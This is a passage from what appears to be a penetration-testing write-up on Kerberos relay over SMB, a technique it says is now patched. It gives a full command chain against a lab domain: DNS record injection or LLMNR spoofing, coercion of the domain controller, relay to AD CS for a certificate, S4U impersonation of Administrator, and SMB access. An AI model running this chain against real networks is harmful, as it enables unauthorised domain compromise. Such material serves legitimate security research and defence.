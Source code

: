 ## Kerberos Relay over SMB (Patched)
Kerberos relay over SMB was introduced in ["Relaying Kerberos over SMB using krbrelayx"](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx) by Synacktiv. If we coerce Kerberos authentication to a specially crafted hostname, a client sends a valid AP_REQ to us. The AP_REQ can be simply relayed.

Since a patch for CVE-2025-33073 made this technique unusable, there are no known ways to perform Kerberos relay over SMB currently😢.

#### Prerequisites
We must be able to add a DNS record or perform LLMNR spoofing.

#### Examples
<p style="margin-bottom:0.25em">
This is the key trick of this technique as written in <a href="https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx">"Relaying Kerberos over SMB using krbrelayx"</a>.
</p>
<blockquote style="margin-top:.5em">
He also showed that if we register the DNS record fileserver1UWhRCAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAfileserversBAAAA, the client would ask a Kerberos ticket for cifs/fileserver but would connect to fileserver1UWhRCAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAfileserversBAAAA.
</blockquote>

<p style="margin-bottom:0.25em">
We need to follow these steps:
</p>
1. Add a crafted DNS record: `<target>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA` (or set up for LLMNR spoofing)
2. Coerce DC1 to authenticate to the crafted hostname
3. Relay the AP_REQ

```sh
# Add a DNS record
python3 dnstool.py -u kawakatz.local\\coward -p 'P@ssw0rd' -r ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d <attacker ip> -a add <dc ip>
# or perform LLMNR spoofing as before
# pretender: https://github.com/RedTeamPentesting/pretender
sudo ./pretender -i ens33 --no-dhcp-dns --no-timestamps --spoof '*1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA*' -4 <attacker ip>

# Kerberos relay over SMB to HTTP
sudo python3 krbrelayx.py -smb2support -t http://ca.kawakatz.local/certsrv/certfnsh.asp --adcs --template KerberosAuthentication
coercer coerce -u coward -p 'P@ssw0rd' -d kawakatz.local -t dc1.kawakatz.local -l ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA

# Abuse an issued certificate as before
python3 gettgtpkinit.py -pfx-base64 MII...MN+jt 'kawakatz.local/DC1$' DC1.ccache
python3 gets4uticket.py 'kerberos+ccache://kawakatz.local\dc1$:DC1.ccache@dc1.kawakatz.local' cifs/dc1.kawakatz.local@kawakatz.local Administrator@kawakatz.local /tmp/Administrator.ccache
export KRB5CCNAME=/tmp/Administrator.ccache
python3 smbclient.py -k -no-pass kawakatz.local/Administrator@dc1.kawakatz.local
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/22.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Adding a DNS record</div>
</div>
<div style="text-align: center; margin: 20px 0;">